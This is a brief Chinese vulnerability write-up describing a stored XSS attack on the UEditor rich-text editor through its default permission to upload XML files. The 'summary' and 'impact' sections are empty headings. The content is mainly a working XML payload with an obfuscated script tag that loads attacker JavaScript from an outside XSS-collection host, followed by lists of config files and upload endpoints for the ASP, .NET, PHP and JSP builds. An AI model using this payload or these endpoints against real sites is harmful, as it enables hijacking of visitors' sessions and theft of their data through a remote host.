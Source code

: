 # ueditor 允许 xml 上传的 xss 漏洞

> 原文：[http://book.iwonder.run/0day/Ueditor/2.html](http://book.iwonder.run/0day/Ueditor/2.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
<html>
<head></head>
<body>
<something:script src="</tExtArEa>'"><sCRiPt sRC=http://xssye.com/tVbS></sCrIpT>" xmlns:something="xss 平台地址">1234</something:script>
</body>
</html> 
```

Ueditor 默认支持上传 xml ：config.json 可以查看支持上传的后缀

```
/ueditor/asp/config.json
/ueditor/net/config.json
/ueditor/php/config.json
/ueditor/jsp/config.json 
```

上传文件路径

```
/ueditor/index.html

/ueditor/asp/controller.asp?action=uploadimage
/ueditor/asp/controller.asp?action=uploadfile

/ueditor/net/controller.ashx?action=uploadimage
/ueditor/net/controller.ashx?action=uploadfile

/ueditor/php/controller.php?action=uploadfile
/ueditor/php/controller.php?action=uploadimage

/ueditor/jsp/controller.jsp?action=uploadfile
/ueditor/jsp/controller.jsp?action=uploadimage 
```

